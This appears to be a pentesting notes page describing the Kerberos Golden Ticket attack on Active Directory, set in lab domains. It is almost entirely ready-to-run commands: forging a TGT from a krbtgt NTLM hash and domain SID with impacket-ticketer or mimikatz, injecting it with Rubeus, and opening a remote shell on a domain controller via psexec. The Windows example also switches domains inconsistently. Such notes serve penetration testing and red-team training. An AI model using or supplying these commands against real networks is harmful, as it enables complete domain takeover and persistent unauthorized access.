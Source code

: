 # Golden ticket

{% hint style="info" %}
The Golden ticket technique is similar to the Silver ticket one, however, in this case a TGT is crafted by using the NTLM hash of the [krbtgt](https://www.tarlogic.com/cybersecurity-glossary/krbtgt/) AD account. The advantage of forging a TGT instead of TGS is being able to access any service (or machine) in the domain.
{% endhint %}

{% hint style="success" %}
Create Ticket Using Hash Krbtgt account
{% endhint %}

### **Linux**

<pre class="language-bash" data-overflow="wrap"><code class="lang-bash">impacket-ticketer -nthash 25b2076cda3bfd6209161a6c78a69c1c -domain-sid S-1-5-21-1339291983-1349129144-367733775 -domain jurassic.park stegosaurus
export KRB5CCNAME=/root/stegosaurus.ccache
<strong>impacket-psexec jurassic.park/stegosaurus@lab-wdc02.jurassic.park -k -no-pass
</strong></code></pre>

### **Windows**

{% code overflow="wrap" %}
```bash
.\mimikatz.exe
privilege::debug
kerberos::golden /domain:hacktor.local /sid:S-1-5-21-1339291983-1349129144-367733775 /rc4:25b2076cda3bfd6209161a6c78a69c1c /user:krbtgt
exit
.\Rubeus.exe ptt /ticket:ticket.kirbi
klist
.\PsExec.exe -accepteula \\lab-wdc02.jurassic.park cmd
```
{% endcode %}

<figure><img src="../../../../.gitbook/assets/image (25).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (26).png" alt=""><figcaption></figcaption></figure>

